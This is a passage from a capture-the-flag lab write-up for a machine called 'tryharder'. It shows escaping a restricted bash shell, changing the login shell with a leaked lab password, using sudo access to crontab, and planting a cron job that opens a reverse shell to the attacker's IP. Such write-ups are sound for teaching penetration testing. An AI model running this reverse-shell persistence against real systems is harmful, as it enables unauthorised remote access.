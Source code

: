 ```
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
jeff@tryharder:~$ bash
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

For some strange reason, through the pty shell obtained with python I could safely execute the bash command. So I went back to the previous shell and did some internet searching and found a way to change the default shell.

```
jeff@tryharder:/home/backupmgr$ chsh
Password: 123-My-N4M3-1z-J3ff-123

Changing the login shell for jeff
Enter the new value, or press ENTER for the default
        Login Shell [/bin/rbash]: /bin/bash
```

In the end I also had to change the PATH environment variable.

Jeff wanted to piss off until the end...
```
jeff@tryharder:~$ sudo -l
Command 'sudo' is available in '/usr/bin/sudo'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
sudo: command not found
jeff@tryharder:~$ export PATH=/usr/bin:$PATH
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
```
I added the final line to the `/etc/crontab` file.
```
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

* * * * * bash -i >& /dev/tcp/10.9.15.73/4242 0>&1
```
